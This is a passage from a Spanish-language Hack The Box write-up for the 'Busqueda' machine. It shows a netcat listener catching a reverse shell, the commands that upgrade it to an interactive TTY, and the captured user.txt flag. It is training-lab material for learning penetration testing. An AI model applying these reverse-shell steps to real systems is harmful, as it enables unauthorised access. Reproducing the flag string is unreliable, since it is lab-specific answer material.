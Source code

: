 Ahora nos enviamos la `reverse shell`

![](/assets/images/htb-writeup-busqueda/web8.png)

Y recibimos la `shell`

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.228.217 53636
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
$ 
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@busqueda:/var/www/app$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
svc@busqueda:/var/www/app$ export TERM=xterm
```

## User.txt

```bash
svc@busqueda:~$ cat user.txt 
f529033768cccc6b99b51ebca4277b11
svc@busqueda:~$ 
```
